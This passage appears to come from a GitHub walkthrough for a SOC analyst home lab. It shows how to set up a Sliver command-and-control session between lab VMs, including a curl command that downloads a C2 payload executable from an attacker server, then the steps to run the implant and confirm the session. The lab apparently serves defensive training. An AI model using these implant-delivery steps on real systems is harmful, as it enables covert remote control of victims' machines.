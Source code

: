 ![image](https://github.com/Virtual-Watcher/SOC-Analyst-Walkthrough/assets/171607952/7b7bee52-6cc2-4d5e-ae43-4ea421840681)

Now, switch to our Windows VM. Using the following command (replacing "UbuntuIP" with our Ubuntu Server IP and replace "payload" with your C2 payload name), we can download the C2 payload from the Ubuntu Linux Server:
```
curl -o C:\Users\User\Downloads\<payload>.exe http://<UbuntuIP>/<payload>.exe
```

It should look similar to this, with your payload name and IP differing:
![image](https://github.com/Virtual-Watcher/SOC-Analyst-Walkthrough/assets/171607952/4d0de454-69f6-4de2-a8e4-a0503e5647af)

We can also check to make sure that the payload downloaded properly by using the following command to see the contents of our current directory: 
```
dir
```

![image](https://github.com/Virtual-Watcher/SOC-Analyst-Walkthrough/assets/171607952/d3605fab-9c9d-438f-add2-749383d1e646)


## Start Command and Control Session
Returning to the Linux VM SSH session, we must enable the Sliver HTTP server to catch the callback.

Terminate the python web server we started using Ctrl + C

![image](https://github.com/Virtual-Watcher/SOC-Analyst-Walkthrough/assets/171607952/130a3c65-8585-47c3-a0e1-8fd6fa906044)

Now, relaunch the Sliver HTTP listener (You will often see #s in scripts as comments or notes to the user to help advise them, as shown below):
```
#First Command
sliver-server

#Second Command
http
```

![image](https://github.com/Virtual-Watcher/SOC-Analyst-Walkthrough/assets/171607952/0bd13753-bc46-41bb-90d8-f438e120bfee)

Return to the Windows VM and execute the C2 payload from its download directory (replacing the "C2-implant" with the payload name from earlier):
```
C:\Users\User\Downloads\<C2-implant>.exe
```

For example: 

![image](https://github.com/Virtual-Watcher/SOC-Analyst-Walkthrough/assets/171607952/fef8444d-9fb8-486e-99b5-6a2550c69e75)

If successful, we should see activity on the Sliver Server:

![image](https://github.com/Virtual-Watcher/SOC-Analyst-Walkthrough/assets/171607952/55784ad5-1e60-4038-853b-d091117749ea)

Verify the session, cross referencing the Session ID found adjacent to "Session" or located below "ID":
```
sessions
```

